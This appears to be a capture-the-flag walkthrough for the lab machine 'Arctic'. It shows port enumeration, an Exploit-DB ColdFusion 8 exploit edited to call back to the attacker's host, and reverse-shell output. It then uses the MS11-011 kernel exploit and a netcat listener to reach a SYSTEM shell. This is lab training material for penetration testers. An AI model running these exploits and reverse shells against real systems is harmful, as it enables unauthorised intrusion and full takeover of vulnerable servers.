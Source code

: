 # IP Address: 10.10.10.11

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.11 -t all

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### 8500/tcp
We find a directory listing at http://10.10.10.11:8500/. At /administrator, we see an Adobe ColdFusion 8 login form. Searching for exploits, we find https://www.exploit-db.com/exploits/50057

This exploit generates and sends a payload with a pause timer, sets up a netcat listener and catches a reverse shell. We only need to change the local host bits. It must have been created for this particular CTF since the target IP address and port match up perfectly!

Original:
```
┌──(code㉿kali)-[~]
└─$ grep "Define some" 50057.py -A 5
    # Define some information
    lhost = '10.10.16.4'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500

```

Edited:
```
┌──(code㉿kali)-[~]
└─$ grep "Define some" 50057.py -A 5
    # Define some information
    lhost = '10.10.14.17'		# EDIT
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
```

# Exploitation

Result:
```
└─$ python3 50057.py                                                                                

Generating a payload...
Payload size: 1497 bytes
Saved as: 7312ae0e03bd4ca3aaeb2547d08c3233.jsp

Priting request...
Content-type: multipart/form-data; boundary=583d326497004a288f345c597fe27c71
Content-length: 1698

...

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.11] 49803

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>

```

user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Arctic/images/Pasted%20image%2020211122202119.png)


# Privilege Escalation
Copy the output of `systeminfo` to local file and run against it windows-exploit-suggester.
Find pre-compiled exploit MS11-011.exe from https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-011

Copy the exploit to target using certutil and run, specifying the local netcat listener:
```
C:\ColdFusion8\runtime\bin>exploit2.exe 10.10.14.17 4499
exploit2.exe 10.10.14.17 4499
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\ColdFusion8\runtime\bin>

```


Listener:
```
┌──(code㉿kali)-[~/tools/windows-kernel-exploits]
└─$ nc -nlvp 4499                                                                                   
listening on [any] 4499 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.11] 50044
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system
```

# Proof
root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Arctic/images/Pasted%20image%2020211122211625.png)
